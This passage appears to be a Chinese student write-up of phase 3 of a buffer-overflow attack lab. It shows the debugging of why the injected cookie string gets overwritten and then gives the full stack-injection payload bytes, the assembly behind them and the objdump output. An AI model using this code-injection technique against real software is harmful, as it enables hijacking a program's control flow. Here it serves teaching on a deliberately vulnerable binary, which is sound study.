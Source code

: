 可以看到在 `0x401985` 的时候调用了 `hexmatch`，所以我们只要在前一句和后一句各设置一个断点，看看缓冲区有没有什么变化（这里稍微改了一下第二阶段的字节码用作测试）

![调用 hexmatch 前](/images/before.jpg)


可以看到在调用 `hexmatch` 之前我们的缓冲区一切正常，主要留意 `0x5560f2f8` 这里，保存着我们的 cookie，其他部分其实已经执行了，所以反而无所谓。

![调用 hexmatch 后](/images/after.jpg)

这就出问题了，我们之前存放在 `0x5560f2f8` 的传入参数给弄没了，而且可以看到从缓冲区开始 `0x5560f2d8` 到缓冲区结束 `0x5560f300` 都不安全。所以我们得给字符串找个新家，不会被覆盖的新家。

仔细观察 `0x5560f308` 之后的内容，在 `0x00401f94` 之后有几个空位置，刚好放得下我们的字符串。为了保证格式的一致，我们需要溢出到 `0x5560f318` 的位置（当然前一个也可以，不过我选择的位置换行了，比较容易看）

于是我们需要输入的字符串是

```
48 c7 c7 18 f3 60 55 68 6e 19 40 00 c3 00 00 00 
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
34 35 33 37 34 66 65 65 d8 f2 60 55 00 00 00 00 
09 00 00 00 00 00 00 00 94 1f 40 00 00 00 00 00 
34 35 33 37 34 66 65 65
```

至于这个怎么来的，其实是和第二阶段类似的过程，对应的汇编指令为：

```asm
mov $0x5560f318,%rdi # mov the cookie string address to parameter
push $0x40196e #push touch3 address
ret
```

```bash
gcc -c p3.s
objdump -d p3.o > p3.byte
```

得到 p3.byte 文件的内容是（其实我没做这一步，直接改第二阶段的代码也可以，因为逻辑都一样的）

```
p3.o:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 18 f3 60 55 mov    $0x5560f318,%rdi
   7:	68 6e 19 40 00       pushq  $0x40196e
   c:	c3                   retq
```
